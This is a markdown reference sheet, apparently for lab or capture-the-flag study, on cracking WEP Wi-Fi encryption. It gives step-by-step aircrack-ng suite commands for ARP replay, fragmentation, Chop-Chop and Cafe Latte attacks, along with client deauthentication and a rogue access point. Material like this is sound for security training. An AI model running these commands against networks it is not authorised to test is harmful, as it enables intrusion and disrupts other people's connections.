

# Wired Equivalent Privacy (WEP) Attacks

> **Purpose:** A structured, detailed reference for WEP attack techniques, including ARP replay, fragmentation, Chop-Chop, and Cafe Latte attacks.  
> **Audience:** Students and red teamers practicing WEP exploitation in controlled labs.

---

## Overview Workflow



---

## 1. ARP Request Replay Attack

### Concept

The fastest and most reliable WEP cracking technique. Requires one associated client.

### Commands & Breakdown

#### **Enable Monitor Mode**

```bash
sudo airmon-ng start wlan0
```

- Enables `wlan0mon` for sniffing/injection.
    

#### **Scan Network and Save Capture**

```bash
sudo airodump-ng wlan0mon -c 1 -w WEP
```

- `-c 1`: locks channel 1.
    
- `-w WEP`: saves capture as WEP-01.cap.
    

#### **Launch ARP Replay Attack**

```bash
sudo aireplay-ng -3 -b <AP_MAC> -h <Station_MAC> wlan0mon
```

- `-3`: ARP request replay.
    
- `-b`: AP BSSID.
    
- `-h`: station MAC.
    

#### **Crack WEP**

```bash
sudo aircrack-ng -b <AP_MAC> WEP-01.cap
```

- Uses PTW statistical attack for fast cracking.
    

---

## 2. Fragmentation Attack

### Concept

Generates PRGA (pseudo-random generation algorithm) bytes from AP. Works even without legitimate client traffic.

### Commands & Breakdown

#### **Enable Monitor Mode & Capture Traffic**

```bash
sudo airmon-ng start wlan0
sudo airodump-ng wlan0mon -c 1 -w WEP
```

- Standard capture for WEP.
    

#### **Perform Fragmentation Attack**

```bash
sudo aireplay-ng -5 -b <AP_MAC> -h <Station_MAC> wlan0mon
```

- `-5`: fragmentation.
    
- Produces `.xor` PRGA file.
    

#### **Identify Source/Destination IPs**

```bash
sudo tcpdump -s 0 -n -e -r replay_scr-*.cap
```

- Checks ARP fields for forging.
    

#### **Forge ARP Packet**

```bash
packetforge-ng -0 -a <AP_MAC> -h <Station_MAC> -k <AP_IP> -l <Station_IP> -y fragment-*.xor -w forgedarp.cap
```

- `-0`: ARP packet.
    
- `-k`: destination (AP IP).
    
- `-l`: source IP.
    
- `-y`: PRGA bytes.
    

#### **Replay Forged Packet**

```bash
sudo aireplay-ng -2 -r forgedarp.cap -h <Station_MAC> wlan0mon
```

- `-2`: interactive replay.
    

#### **Accelerate IV Collection**

```bash
sudo aireplay-ng -3 -b <AP_MAC> -h <Station_MAC> wlan0mon
```

#### **Crack WEP Key**

```bash
sudo aircrack-ng -b <AP_MAC> WEP-01.cap
```

---

## 3. Korek Chop-Chop Attack

### Concept

Allows recovery of plaintext from encrypted packets, producing PRGA data.

### Commands & Breakdown

#### **Start Chop-Chop Attack**

```bash
sudo aireplay-ng -4 -b <AP_MAC> -h <Station_MAC> wlan0mon
```

- `-4`: Chop-Chop mode.
    

#### **Identify IPs**

```bash
sudo tcpdump -s 0 -n -e -r replay_dec-*.cap
```

#### **Forge ARP Request**

```bash
packetforge-ng -0 -a <AP_MAC> -h <Station_MAC> -k <AP_IP> -l <Station_IP> -y fragment-*.xor -w forgedarp.cap
```

#### **Replay Forged Packet**

```bash
sudo aireplay-ng -2 -r forgedarp.cap -h <Station_MAC> wlan0mon
```

#### **Accelerate IV Collection**

```bash
sudo aireplay-ng -3 -b <AP_MAC> -h <Station_MAC> wlan0mon
```

#### **Crack WEP Key**

```bash
sudo aircrack-ng -b <AP_MAC> WEP-01.cap
```

---

## 4. Cafe Latte Attack

### Concept

Special attack that targets a _client_, not an AP. Allows cracking key even if the AP is out of range.

### Commands & Breakdown

#### **Start the Attack**

```bash
sudo aireplay-ng -6 -D -b <AP_MAC> -h <Station_MAC> wlan0mon
```

- `-6`: Cafe Latte.
    
- `-D`: treat client as AP.
    

#### **Launch Rogue AP**

```bash
sudo airbase-ng -c 1 -a <AP_BSSID> -e "<AP_ESSID>" wlan0mon -W 1 -L
```

- Mimics real AP.
    

#### **Deauthenticate Client**

```bash
sudo aireplay-ng -0 10 -a <AP_MAC> -c <Station_MAC> wlan0mon
```

#### **Crack WEP Key**

```bash
sudo aircrack-ng -b <AP_MAC> WEP-01.cap
```

---

## 5. Additional WEP Cracking Tools

#### **CPU Benchmark**

```bash
aircrack-ng -S
```

#### **Capture Only IVs**

```bash
sudo airodump-ng wlan0mon -c 1 -w HTB --ivs
```

#### **Crack WEP Using Korek Method**

```bash
aircrack-ng -K HTB.ivs
```

#### **Decrypt WEP Capture**

```bash
airdecap-ng -w <hex_key> WEP-01.cap
```

---

## 6. Common Scenarios

|Phase|Action|Command|
|---|---|---|
|Recon|Identify WEP AP + clients|`airodump-ng wlan0mon`|
|Attack|Produce PRGA|`aireplay-ng -5` or `-4`|
|Inject|Replay forged ARP|`aireplay-ng -2 -r forgedarp.cap`|
|Speedup|ARP replay flood|`aireplay-ng -3`|
|Crack|Final key recovery|`aircrack-ng WEP-01.cap`|

---

## 7. Troubleshooting Tips

|Problem|Cause|Fix|
|---|---|---|
|Chop-Chop fails early|AP drops packets|Switch to fragmentation (`-5`)|
|No client traffic|Idle network|Use Cafe Latte attack|
|No IV increase|Packet injection failing|Test: `aireplay-ng --test wlan0mon`|
|PRGA file empty|Wrong MAC pairing|Verify AP/client MACs|
|Capture corrupted|Channel mismatch|Lock adapter to AP channel|

---

## 8. Cross-tool Reference

|Purpose|Legacy Tool|Alternative|
|---|---|---|
|PRGA extraction|`aireplay-ng -4 / -5`|`eapmd5pass` (rare)|
|ARP forging|`packetforge-ng`|Custom Scapy scripts|
|Decrypt WEP|`airdecap-ng`|Wireshark WEP key input|
|Crack WEP|`aircrack-ng -K`|`wepattack` (historic)|

---

### Summary

- **WEP attacks rely on IV collection and PRGA byte recovery.**
    
- ARP replay is fastest, fragmentation and Chop-Chop are fallbacks.
    
- Cafe Latte works even without AP proximity.
    
- Use `aircrack-ng` for final key recovery.
    
- Always lock channel and verify MAC pairings.